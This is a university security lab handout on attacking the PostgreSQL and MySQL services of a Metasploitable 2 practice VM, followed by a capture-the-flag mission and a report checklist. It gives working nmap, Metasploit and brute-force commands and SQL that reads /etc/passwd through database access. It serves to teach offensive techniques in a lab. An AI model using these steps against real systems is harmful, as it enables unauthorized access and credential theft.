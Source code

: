 # ACIT 4630 - Lab 3: Attacking Databases on Metasploitable 2

## Lab Instructions

### Scanning for Open Ports

Run the following command to scan for services and ports on the Metasploitable 2 VM:

```sh
sudo nmap -sV <Metasploitable2_VM_IP>
```

Identify the open ports for PostgreSQL (port 5432) and MySQL (port 3306).
Run a more detailed scan on the database ports: (OPTIONAL)

```sh
sudo nmap -T5 --script='all' -p5432,3306 <Metasploitable2_VM_IP>
```

### Attack PostgreSQL Database

Start Metasploit in Kali Linux:

```sh
msfconsole
```

Search for the PostgreSQL login scanner:

```sh
search scanner postgres login
```

Set the necessary variables:

- Set `RHOSTS` to your `<Metasploitable2_VM_IP>`.
- Set `ANONYMOUS_LOGIN` to `true` or `1`.

Run the exploit to find working credentials: `run` or `exploit`
After discovering the credentials, log in to the PostgreSQL database:

```sh
psql -h <Metasploitable2_VM_IP> -U <Username> -d <DB Name>
```

Once inside the PostgreSQL shell, retrieve the system's hashed password file as below:

1. First, we need to create a Table:

   ```sql
   CREATE TABLE passwd_data (line TEXT);
   ```

2. Then we need to copy the file to out table:

   ```sql
   COPY passwd_data FROM '/etc/passwd';
   ```

3. We read the whole table:

   ```sql
   SELECT * from passwd_data;
   ```

### Attack MySQL Database

Run the following Nmap command to brute force MySQL credentials:

```sh
sudo nmap -T1 -d --script="mysql-brute" -p3306 <Metasploitable2_VM_IP>
```

**Note**: If no credentials are found, try again OR reboot the Metasploitable 2 VM.
After obtaining credentials, log in to MySQL:

```sh
mysql -h <Metasploitable2_VM_IP> -u <Username found> -p --skip-ssl
```

In the MySQL shell, dump the password file after creating a new table:

```sql
CREATE TABLE newtable(LINE TEXT);
LOAD DATA INFILE '/etc/passwd' INTO TABLE newtable;
```

Read the `newtable` to see the content of the `/etc/passwd` file written there.

---

## **Mission 3 – The Double Vault Heist** 🗝️💾

> *Two vaults. Two worlds. Both hold secrets… but only the worthy will open them.*

Somewhere deep inside our target’s infrastructure lie **two critical intel drops** — one locked away in the **PostgreSQL vault**, the other hidden in the shadows of the **MySQL vault**.
Your objective is simple: **capture both mandatory flags** before the clock runs out.

But beware: rumors speak of a **third, bonus vault** inside MySQL — an **unlisted stash** placed there by the old operatives.
It’s not required for mission completion…
…but those who claim it will earn **extra glory, higher points, and almost certain recruitment** to the elite **BCIT CTF Strike Team**.

**Objectives:**

1. **PostgreSQL Flag** – Hidden in schema `intel`, table `flags`.
2. **MySQL Flag** – Location unknown… your recon will tell.
3. **Bonus Flag (MySQL)** – Invisible to the untrained eye. Finding it will set you apart.

**Flag Format:**

```txt
BCIT{something_here}
```

**Rules of Engagement:**

- The two main flags are mandatory for mission completion.
- The bonus flag is optional but **highly valuable** for leaderboard ranking.
- No brute-forcing passwords — think like a cyber-sleuth, not a wrecking ball.
- Document your steps: **evidence matters.**

### 🔎 **Hint for the PostgreSQL Vault**

> *“Not all doors have names on them… sometimes you must first ask the gatekeeper what tables exist in the land. Once you know their names, you may read from the one that whispers secrets of **intel**.”*

💡 Practical nudge:

- Start by listing all tables you have access to.
- Then, investigate the one that belongs to schema **`intel`** — it may hold more than just rows of data.

That way, they’ll naturally run something like:

```sql
SELECT * FROM pg_tables;
```

---

### Submission For Lab 3

- Add these screenshots to your report:
  - Result of msfconsole postgres exploit
  - Result of entering postgres database and retrieving the passwd file
  - Result of nmap script where you got credentials of mysql
  - Result of entering mysql database queries and retrieving the passwd file
- Mandatory Mission 3 parts (1st and 2nd flags) with documented evidence.
